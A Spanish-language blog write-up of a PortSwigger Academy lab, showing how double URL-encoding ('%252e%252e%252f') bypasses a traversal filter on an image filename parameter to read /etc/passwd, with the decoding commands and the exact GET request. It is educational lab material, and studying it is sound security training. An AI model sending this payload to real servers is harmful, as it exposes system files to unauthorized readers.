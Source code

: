 +++
author = "Alux"
title = "Portswigger Academy Learning Path: Directory Traversal Lab 4"
date = "2021-11-28"
description = "Lab: File path traversal, traversal sequences stripped with superfluous URL-decode"
tags = [
    "directory traversal",
    "portswigger",
    "academy",
    "burpsuite",
]
categories = [
    "pentest web",
]
series = ["Portswigger Labs"]
image = "head.png"
+++

# Lab: File path traversal, traversal sequences stripped with superfluous URL-decode

En este <cite>laboratorio[^1]</cite>la finalidad es poder recuperar el archivo `/etc/passwd` todo esto en una vulnerabilidad la cual es la que desplega las imagenes.


## Reconocimiento

La web muestra un post el cual contiene contenido y una imagen.

![Web](web.png)

Hasta ahi todo bien pero viendo burpsuite podemos ver que se hace la peticion para poder recuperar la imagen y mostrarla

![Solicitud de imagen](request.png)

## Explotacion

Lo que sabemos es que el backend eliminara los valores ingresados para realizar directory traversal como `../ o /` pero luego de eliminarlo realiza la decodificacion de las entradas de la URL antes de usarla, por lo que podemos codificar los caracteres en formato URL. En este caso para resolverlo debemos usar doble codificacion como vemos, que esta codificado doble lo podemos decodificar por terminal o usando Cyberchef

```bash
echo -n "%252e%252e%252f" | python3 -c "import sys; from urllib.parse import unquote; print(unquote(sys.stdin.read()));"
%2e%2e%2f
echo -n "%2e%2e%2f" | python3 -c "import sys; from urllib.parse import unquote; print(unquote(sys.stdin.read()));"
../
```
![Decodificacion de strings URL](codificado.png)

Y realizamos la peticion:

```
GET /image?filename=%252e%252e%252f%252e%252e%252f%252e%252e%252fetc%252fpasswd HTTP/1.1
```

Y obtenemos el archivo `/etc/passwd`

![Solicitud de archivo passwd](request2.png)

Y con esto hemos resuelto el lab

![Laboratorio resuelto](resuelto.png)


[^1]: [Laboratorio](https://portswigger.net/web-security/file-path-traversal/lab-superfluous-url-decode)